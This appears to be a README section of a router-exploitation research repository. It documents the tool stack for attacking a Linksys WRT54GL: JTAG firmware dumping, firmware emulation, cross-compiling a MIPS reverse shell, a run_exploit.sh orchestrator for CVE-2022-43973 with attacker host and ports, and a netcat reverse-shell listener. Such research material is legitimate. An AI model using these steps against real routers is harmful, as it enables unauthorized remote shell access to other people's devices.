



# Software Stack 

This section contains all the software components used during the exploitation process.

> **Recommendation:** Use **Ubuntu 20.04 LTS** / **Kali Linux** to ensure full compatibility and reproducibility.

> **Disclaimer:** This repository is for **educational and research purposes only**. Do **not** reproduce on hardware you do not own or have explicit authorization to test. The author assumes **no liability** for misuse.


---

## Table of Contents

1. [Docker Image (required)](#1-docker-image-required)
    - 1.1 [Minimal Dockerfile snippet](#11-minimal-dockerfile-snippet)
    - 1.2 [Commands — build, run, inspect, compile](#12-commands--build-run-inspect-compile)

2. [OpenOCD (JTAG)](#2-openocd-jtag)
    - 2.1 [Broadcom configuration example](#21-broadcom-configuration-example)
    - 2.2 [Typical workflow / commands](#22-typical-workflow--commands)
    - 2.3 [Linksys WRT54GL custom configuration](#23-linksys-wrt54gl-custom-configuration)

3. [JTAGulator Integration](#3-jtagulator-integration)

4. [Ghidra — Static Analysis](#4-ghidra--static-analysis)

5. [Binary Utilities (binwalk, dd, strings, hexdump)](#5-binary-utilities-binwalk-dd-strings-hexdump)

6. [Firmware Emulation — FirmAE / Firmadyne](#6-firmware-emulation--firmae--firmadyne)

7. [Python — Automation & PoC Scripts](#7-python--automation--poc-scripts)

8. [Netcat / Socat — Network Testing](#8-netcat--socat--network-testing)

9. [Additional Packages (mtd-utils, bcm53xx-utils)](#9-additional-packages-mtd-utils-bcm53xx-utils)

10. [Versions & Reproducibility Checklist](#10-versions--reproducibility-checklist)

11. [Quick Troubleshooting](#11-quick-troubleshooting)

12. [References](#12-references)

---

## 1. Docker Image (required)

Docker is used to build a reproducible cross-compilation environment for the MIPS reverse shell PoC.
All Docker-related files are located in the `docker/` directory.

### 1.1 Minimal Dockerfile snippet

```dockerfile
FROM i686/ubuntu

RUN apt update
WORKDIR /root

ADD WRT54GL-ETSI_v4.30.18.006.tar .
ADD revshell.c .

RUN cd WRT54GL-ETSI_v4.30.18.006 && \
    mkdir /opt/brcm && \
    cp -a tools/brcm/hndtools-mipsel-linux-3.2.3 /opt/brcm/ && \
    cp -a tools/brcm/hndtools-mipsel-uclibc-0.9.19 /opt/brcm/ && \
    cd /opt/brcm && \
    ln -s hndtools-mipsel-linux-3.2.3  hndtools-mipsel-linux && \
    ln -s hndtools-mipsel-uclibc-0.9.19  hndtools-mipsel-uclibc

ENV PATH=$PATH:/opt/brcm/hndtools-mipsel-linux/bin:/opt/brcm/hndtools-mipsel-uclibc/bin

CMD ["/bin/bash"]
```

---

### 1.2 Commands — build, run, inspect, compile

```bash
# 1. Build the image
docker build -t wrt54gl-toolchain:latest -f Dockerfile .

# 2. Run a container and mount your repo
docker run --rm -it -v "$(pwd)":/work --workdir /work wrt54gl-toolchain:latest

# 3. Verify setup inside the container
which mipsel-linux-gcc || ls -la /opt/brcm/hndtools-mipsel-linux/bin

# 4. Cross-compile reverse shell
mipsel-linux-gcc -static -O2 -o revshell_mips revshell.c
file revshell_mips
```

---

## 2. OpenOCD (JTAG)

Used for direct hardware access via JTAG to halt CPUs, inspect memory and flash, and dump firmware.

### 2.1 Broadcom configuration example

Save as `tools/openocd/broadcom.cfg`:

```bash
interface ft2232
ft2232_device_desc "Dual RS232-HS"
ft2232_layout "olimex-jtag"
ftdi_vid_pid 0x0403 0x6010
adapter_khz 1000

source [`find target/bcm53xx.cfg`]
```

> **Note:** Adjust VID:PID, layout, and clock speed to your adapter.
> Check `lsusb` output to confirm device IDs.

---

### 2.2 Typical workflow / commands

```bash
openocd -f tools/openocd/broadcom.cfg

# In another terminal
telnet localhost 4444

# Common commands:
> target halt
> mdw 0x80000000 128
> dump_image ./dumps/wrt54gl.bin 0x80000000 0x00400000
> resume
```

---

### 2.3 Linksys WRT54GL custom configuration

Located at: `scripts/openocd-config/linksys-wrt54gl-alternative/linksys-wrt54gl.cfg`

```bash
source [find target/bcm5352e.cfg]

set partition_list {
    CFE        { Bootloader 0xbfc00000 0x00040000 }
    firmware   { Kernel+rootfs 0xbfc40000 0x003b0000 }
    nvram      { Config 0xbfff0000 0x00010000 }
}

flash bank $_CHIPNAME.flash cfi 0xbfc00000 0x00400000 2 2 $_TARGETNAME
```

Adapter (AttifyBadge):

```bash
interface ftdi
ftdi_vid_pid 0x0403 0x6014
ftdi_layout_init 0x0c08 0x0f1b
adapter_khz 4000
```

---

## 3. JTAGulator Integration

Use the **JTAGulator** to discover debug pins (JTAG/SWD/UART).
Once the mapping is identified, connect your FTDI/FT2232 adapter and proceed with OpenOCD.

| Firmware JTAGulator Usage                                        | JTAGulator Connection Example                                           |
| ---------------------------------------------------------------- | ----------------------------------------------------------------------- |
|  |  |


**Linux Commands:**

```bash
dmesg | tail -n 20
screen /dev/ttyUSB0 115200
# or
sudo minicom -D /dev/ttyUSB0 -b 115200
```

**Windows (Tera Term):**

* Baud: 115200 / Data: 8 / Parity: None / Stop: 1 / Flow: None
* Log via: `File → Log`
* Optional automation: `Control → Macro`

**Example Pinmap (YAML):**

```yaml
board: wrt54gl_v1.1
date: 2025-10-12
device: Linksys WRT54GL v1.1
pins:
  TCK: PA3
  TMS: PA4
  TDI: PA1
  TDO: PA2
  TRST: NC
  SRST: PB0
notes: "Header JP3 unpopulated — verified 3.3V logic."
```

---

## 4. Ghidra — Static Analysis

Perform deep static analysis on dumped firmware and binaries using Ghidra.
Recommended: enable **MIPS decompiler plugin** and **auto-analysis** on imported ELF files.

---

## 5. Binary Utilities (binwalk, dd, strings, hexdump)

```bash
binwalk ./dumps/wrt54gl.bin
binwalk -E ./dumps/wrt54gl.bin
binwalk -e ./dumps/wrt54gl.bin
sha256sum ./dumps/wrt54gl.bin
```

Use `strings -a` and `dd` for carving and manual inspection.

---

## 6. Firmware Emulation — FirmAE / Firmadyne

* FirmAE provides safer, automated emulation for MIPS-based firmware.
* Follow installation guide: [https://github.com/pr0v3rbs/FirmAE](https://github.com/pr0v3rbs/FirmAE)

Example Result:


---

## 7. Python — Automation & PoC Scripts

Folder: `code-exploit/`

Main components:

* `exploit.py` — CVE-2022-43973 exploit implementation
* `router_module/` — reusable logic (HTTP sessions, payload delivery)
* `run_exploit.sh` — orchestrator

### run_exploit.sh

```bash
ROUTER_HOST=192.168.1.1
ROUTER_USERNAME=admin
ROUTER_PASSWORD=admin

ATTACKER_HOST=192.168.1.2
ATTACKER_HTTP_SERVER_PORT=8000
ATTACKER_REVSHELL_HANDLER_PORT=4141

python exploit.py \
  --host $ROUTER_HOST \
  --username $ROUTER_USERNAME \
  --password $ROUTER_PASSWORD \
  --attacker-host $ATTACKER_HOST \
  --attacker-http-port $ATTACKER_HTTP_SERVER_PORT \
  --attacker-handler-port $ATTACKER_REVSHELL_HANDLER_PORT
```

Payload stored in: `payloads/revshell.o`

---

## 8. Netcat / Socat — Network Testing

```bash
# Reverse shell listener
nc -lvnp 4141
```

---

## 9. Additional Packages (mtd-utils, bcm53xx-utils)

Essential utilities for working with NAND/NOR flash, Broadcom SoCs, and partition tables.
Install with:

```bash
sudo apt install mtd-utils bcm53xx-utils
```

---

## 10. Versions & Reproducibility Checklist

| Component | Version Tested | Notes                               |
| --------- | -------------- | ----------------------------------- |
| Ubuntu    | 20.04 LTS      | Stable reference environment        |
| Docker    | 26.x           | Required for toolchain container    |
| binwalk   | 2.3.x          | For extraction and entropy analysis |
| OpenOCD   | 0.12.0+        | JTAG access                         |
| FirmAE    | latest         | Firmware emulation                  |
| Ghidra    | 11.x           | Reverse engineering                 |

---

## 11. Quick Troubleshooting

| Symptom                       | Cause                  | Solution                                 |
| ----------------------------- | ---------------------- | ---------------------------------------- |
| OpenOCD fails to connect      | Wrong VID/PID or clock | Check adapter config and voltage         |
| binwalk extraction incomplete | Unsupported FS type    | Use `jefferson` or `unsquashfs` manually |
| FirmAE boots to BusyBox only  | Wrong rootfs           | Verify image offsets and architecture    |
| Reverse shell doesn’t connect | Wrong handler IP/port  | Check listener and firewall              |

---

## 12. References

**Main Tools**

* [Ghidra](https://ghidra-sre.org/)
* [Firmadyne](https://github.com/firmadyne/firmadyne)
* [FirmAE](https://github.com/pr0v3rbs/FirmAE)
* [Attify Badge](https://github.com/attify/Attify-Badge)
* [JTAGulator](https://github.com/grandideastudio/jtagulator)

**OpenOCD**

* [Official Site](https://openocd.org/)
* [Source & Configs](https://github.com/openocd-org/openocd)
* [FT2232H Info](https://www.ftdichip.com/Products/ICs/FT2232H.htm)

**Linksys Documentation**

* [Official Firmware](https://www.linksys.com/us/support-article?articleNum=148648)
* [Toolchain Download](https://www.linksys.com/us/support-article?articleNum=114663)

---

